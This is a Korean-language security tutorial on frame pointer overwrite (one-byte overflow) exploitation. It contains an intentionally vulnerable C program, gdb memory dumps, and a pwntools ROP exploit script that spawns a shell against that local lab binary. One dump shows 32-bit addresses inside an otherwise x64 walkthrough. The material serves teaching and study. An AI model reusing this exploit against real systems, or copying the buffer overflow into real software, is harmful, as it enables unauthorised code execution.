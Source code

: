 ## **Concept**

Frame Poineter를 1byte 덮어써 코드의 흐름을 변경하는 기법. One-byte Overflow라고도 한다.

## **Proof of Concept**

```c
// Vuln Code
// gcc -fno-stack-protector -o fpo fpo.c -ldl
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
#include <stdlib.h>
 
void vuln(){
    char buf[32];
    printf("buf[32] address : %p\n",buf);
    void (*printf_addr)() = dlsym(RTLD_NEXT, "printf");
    printf("Printf() address : %p\n",printf_addr);
    read(0, buf, 49);
}
 
void main(int argc, char *argv[]){
    if(argc<2){
        printf("argv error\n");
        exit(0);
    }
    vuln();
}
```

buf는 32 byte지만 read를 49 byte하여 bof 발생.

```
0x7ffe119a28b0:	0x4141414141414141         0x4141414141414141
0x7ffe119a28c0:	0x4141414141414141         0x4141414141414141
0x7ffe119a28d0:	0x4141414141414141         0x4141414141414141
0x7ffe119a28e0:	0x00007ffe119a2942 <= rbp  0x000000000040079b 
0x7ffe119a28f0:	0x00007ffe119a29e8         0x0000000200000000
```

&buf+4(0xbfa07cfe)의 마지막 byte(0xfe)를 EBP의 마지막 바이트에 삽입.

```
gdb-peda$ x/24x $ebp
0xbfa07d02:	0x43434343	0x44444444	0x45454545	0x46464646
0xbfa07d12:	0x47474747	0x48484848	0x80ecb70a	0x0002b7d2
```

1 byte 오버플로를 통해 rbp 변경 확인.

```
gdb-peda$ x/24gx $rbp
0x7ffe119a2942:	0x29e0000000000040	0x000000007ffe119a
0x7ffe119a2952:	0x0000000000000000	0x2989000000000000
0x7ffe119a2962:	0x29894ef138aa26b6	0x00004ff63f51fb46
```

leave 명령으로 인해 rbp 레지스터 값은 rsp에 저장됨.  
따라서 1 byte 변조하여 RTL 코드 또는 Shellcode가 저장된 영역을 가리키게 한다면 Shell 획득 가능.

## **Exploit Code**
```python
# Exploit Code
from pwn import *

p=process(['./fpo','a'])
buf = p.recvline()
libc = p.recvline()

onebyte = int(buf.split(' ')[3][12:14],16)
libcBase = int(libc.split(' ')[3],16) - 0x55800
system = libcBase + 0x45390
binsh = libcBase + 0x18cd57
exit = libcBase + 0x3a030
poprdi = 0x400803

print('one byte: '+hex(onebyte))
print('libcBase: '+hex(libcBase))
print('system(): '+hex(system))
print('/bin/sh: '+hex(binsh))
print('exit: '+hex(exit))
print('pop rdi: '+hex(poprdi))

exploit_code = "A"*8
exploit_code += p64(poprdi)
exploit_code += p64(binsh)
exploit_code += p64(system)
exploit_code += "A"*(48-len(exploit_code))
exploit_code += p64(onebyte)

p.sendline(exploit_code)

p.interactive()
```

## **Exploit**
```shell
pwner@bs-virtual-machine:~$ python exploit.py 
[+] Starting local process './fpo': pid 10373
one byte: 0x50
libcBase: 0x7fe3ad0be000
system(): 0x7fe3ad103390
/bin/sh: 0x7fe3ad24ad57
exit: 0x7fe3ad0f8030
pop rdi: 0x400803
[*] Switching to interactive mode
$ id
uid=1001(pwner) gid=1001(pwner) groups=1001(pwner)
```

**Refereces**  
[https://www.lazenca.net/display/TEC/02.Frame+Pointer+Overwrite%28One-byte+Overflow%29+-+x64](https://www.lazenca.net/display/TEC/02.Frame+Pointer+Overwrite%28One-byte+Overflow%29+-+x64)

